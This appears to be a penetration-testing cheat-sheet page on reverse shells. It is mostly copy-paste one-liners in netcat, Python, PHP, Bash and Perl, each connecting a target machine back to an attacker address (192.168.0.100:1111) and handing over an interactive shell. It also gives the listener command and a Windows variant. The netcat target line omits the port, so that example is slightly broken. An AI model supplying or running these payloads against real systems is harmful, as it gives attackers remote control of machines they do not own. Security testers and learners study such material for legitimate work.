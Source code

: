 # Reverse shell

After finding a remote execution exploit, the next thing you may want to do is gain access to the remote machine. A technique to accomplish this is a reverse shell.

A reverse shell is when the remote host initiates a connection with the attacking machine. This technique is particularly useful when the target machine does not have a public IP address.

There are a number of ways this can be accomplished and it will depend on the tools and software available on the remote machine.

In the examples below, the host machine \(attacker\) IP is 192.168.0.100.

### Netcat

Netcat is not often installed on production systems but you never know you may be lucky. If it is, the version installed may not support the `-e` option. On Ubuntu, the better netcat package is distributed as `ncat`.

On the host machine, run start netcat listening on a port

```
nc -nlvp 1111
```

Now on the target machine, execute the following to open the reverse shell

```bash
nc -nv 192.168.0.100 -e /bin/bash
```

On the host machine, you can now run commands as the local user from the target.

{% hint style="info" %}
 The command listed here are aimed at linux/unix machines. If you are targeting a Windows machine then you can try substituting `/bin/bash` with `cmd.exe`.
{% endhint %}

### Python

The following code has been tested and works with both Python 2 and 3.

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.100",1111));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP

The following was tested with PHP 7.4. If it doesn’t work for you, try using a different file descriptor \(4, 5 or 6\).

```bash
php -r '$sock=fsockopen("192.168.0.100",1111);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Bash

This is a bit of a weird one as it echo’s out the command you typed as well as the result.

```bash
bash -i >& /dev/tcp/192.168.0.100/1111 0>&1
```

### Perl

```text
perl -e 'use Socket;$i="192.168.0.100";$p=1111;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

